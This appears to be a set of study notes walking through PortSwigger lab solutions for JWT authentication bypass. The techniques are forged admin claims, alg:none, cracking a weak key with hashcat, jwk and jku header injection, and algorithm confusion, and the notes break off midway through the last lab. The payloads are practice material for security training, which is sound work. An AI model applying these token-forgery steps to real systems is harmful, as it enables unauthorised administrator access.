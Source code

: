 # JWT

 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		- 	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
step 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

step 2 — Create a malicious symmetric key in Burp

In Burp → JWT Editor → Keys: New RSA Key → choose JWK and paste the copied JWK; save.
Right-click the new key → Copy Public Key as PEM.
Base64-encode that PEM (use Decoder tab) and copy the Base64 string.
In JWT Editor → Keys: New Symmetric Key → Generate, then replace the k value with the Base64-encoded PEM; save.

```